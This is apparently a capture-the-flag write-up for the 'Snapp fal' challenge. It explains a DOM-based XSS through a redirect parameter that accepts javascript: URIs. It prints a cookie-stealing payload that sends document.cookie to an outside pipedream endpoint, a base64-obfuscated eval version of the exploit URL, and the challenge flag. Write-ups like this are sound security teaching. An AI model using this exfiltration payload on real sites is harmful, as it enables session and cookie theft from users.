

# Snapp fal

```
From now on Snapp can offer you fals if you want.

[Download attachments](https://snappctf.com/tasks/snappfal_0bfd799152fef7299463752d840c3225f64cb259.txz)

**Notes for beginners**

-[https://portswigger.net/web-security/cross-site-scripting/dom-based](https://portswigger.net/web-security/cross-site-scripting/dom-based)

-You need to get XSS on https://snappfal.spchallenge.ir/

-When you got it, report your payload to https://snappfal-support.spchallenge.ir/

-A virtual browser will visit your payload... flag is in the cookies of `snappfal.spchallenge.ir`. Simply write a payload that steals `document.cookie` and submit the payload to [https://snappfal-support.spchallenge.ir/](https://snappfal-support.spchallenge.ir/).

-If your payload doesn't work on Admin bot, contact support.

-Admin closes the browser after 5 seconds.

-`src.js` is the source code of the website.

-`bot.js` is the script that controls the virtual browser ( You can ignore it ).
```

when we visit the website we encounter a page like this


# Solution

if we click on the button it will be like this for a few seconds and the redirects us to previous page


if wee look at the page source


the input parameter back is for redirecting the user to an arbitrary page. so we can cause a dom-based XSS here by using javascript schema


the goal of the challenge is to read the flag which is inside admin's cookie


I used this payload to redirect admin back to my server containing it's cookie as query string

```js
window.location="https://eowlxdv1oni96il.m.pipedream.net/?f="+document.cookie
```

and the finalized url is

```
https://snappfal.spchallenge.ir/fal?back=javascript:eval(atob(%27d2luZG93LmxvY2F0aW9uPSJodHRwczovL2Vvd2x4ZHYxb25pOTZpbC5tLnBpcGVkcmVhbS5uZXQvP2Y9Iitkb2N1bWVudC5jb29raWUK%27))
```


```
SNAPP{89d36f80b85bde916fbdeb8592c1b368}
```